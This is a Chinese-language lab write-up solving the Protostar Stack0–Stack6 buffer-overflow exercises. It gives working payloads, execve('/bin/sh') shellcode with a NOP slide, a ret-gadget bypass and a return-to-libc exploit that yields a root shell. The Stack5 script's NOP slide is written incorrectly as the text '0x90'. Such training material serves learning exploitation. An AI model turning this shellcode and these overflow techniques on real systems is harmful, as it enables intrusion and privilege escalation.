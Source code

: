 # Protostar

## Stack0

先蓋 64 個字

再蓋下去就是 modified (目標)

這題只要讓 modified != 0

所以隨便蓋就好

`python -c "print 'A'*64+'whatever'" | ./stack0`

## Stack1

這題 modified 和 buffer 的相對距離一樣是 64 個字

但是要把 modified 變成 0x61626364 (小心 little endian)

注意 input 是從 argv 參數進來的 (我用 xargs 把 python 產生的字給 stack1 當參數)

`python -c "print 'A'*64+'dcba'" | xargs ./stack1`

## Stack2

這題也一樣

不過 input 變成從 GREENIE(環境變數) 拿值進來

```
GREENIE=$(python -c "print 'A'*64+'\x0a\x0d\x0a\x0d'")
export GREENIE
./stack2
```

## Stack 3

這題要把 fp (function pointer) 改成 win 這個函式的位置

offset (buffer 和 fp 的相對距離) 也一樣是 64 bytes (也就是先蓋 64 個字之後就蓋到目標 fp 了)

先用 gdb 看 win 函式的位置 (在 gdb 下執行 `x win`) -> 0x8048424

`python -c "print 'A'*64+'\x24\x84\x04\x08'" | ./stack3`

## Stack4

這題要把 stack 上的 return address 改成 win 這個函式的位置

offset (buffer 和 return address 的相對距離) 是 76 bytes (也就是先蓋 64 個字之後就蓋到目標 return address 了)

先用 gdb 看 win 函式的位置 (在 gdb 下執行 `x win`) -> 0x80483f4

`python -c "print 'A'*76+'\xf4\x83\x04\x08'" | ./stack4`

## Stack5

這題要把 shellcode 塞到 stack 上執行囉~(興奮XD)

首先正確的蓋到 return_address (讓他 return 到 stack 後面一點的位置)

再建一個 nop 通道讓他滑到執行 shellcode

然後當然也要把 shell code 放到 stack 上

```python
import struct

padding = 'A'*76
return_address = struct.pack("I",0xbffff78c+50)
slide_path = '0x90'*100
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80";
print padding + return_address + slide_path + shell_code
```

`(python exploit.py ; cat ) | ./stack5`

拿到 sh 了而且還是 root 的權限 (我們原本是 user 的權限)

## Stack6

這題和上一題差不多只要我們能 return 到我們塞的 shellcode 就好

可是多了這行 `if((ret & 0xbf000000) == 0xbf000000)` ( 如果成立就直接 exit )

而 0xbf 開頭的位址就包含了我們能控制的所有 stack

#### 作法一 : 

我們在 stack 上把 return address 和他的下一個位址改成 `ret` 那行 code 的位址和我們真正要 return 的位址

所以程式檢查 return address 是不是 0xbf 開頭 -> 當然不是因為現在的 return address 是 `ret` 那行 code 的位址

然後執行到 `ret` 時就會先 return 到 `ret` 那行 code ( 也就是再 return 一次 )

所以就會抓 stack 上面下一個值 return 到我們真正要 return 的位址 -> BINGO

```python
import struct

padding = "A"*80
ret_gadget = struct.pack("I",0x80484f9)
return_address = struct.pack("I",0xbffff78c+30)
nop_slide = "\x90"*100
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print padding + ret_gadget + return_address + nop_slide + shell_code
```

`(python exploit.py ; cat ) | ./stack6`

#### 作法二 : 

return to libc 的 system 函式並傳遞 "/bin/sh" 的參數進去

從 return address 開始蓋

蓋 libc 中 system 這個 function 的位址

蓋 system call 完要 return 的 address

蓋 "/bin/sh" 這個參數 ( 用 linux 指令 strings 去找 libc 裡面這個字串的位址 )

```python
import struct

padding = "A"*80
system = struct.pack("I",0xb7ecffb0)
return_after_system = "AAAA"
bin_sh = struct.pack("I",0xb7fb63bf)

print padding + system + return_after_system + bin_sh
```

`(python exploit2.py ; cat ) | ./stack6`
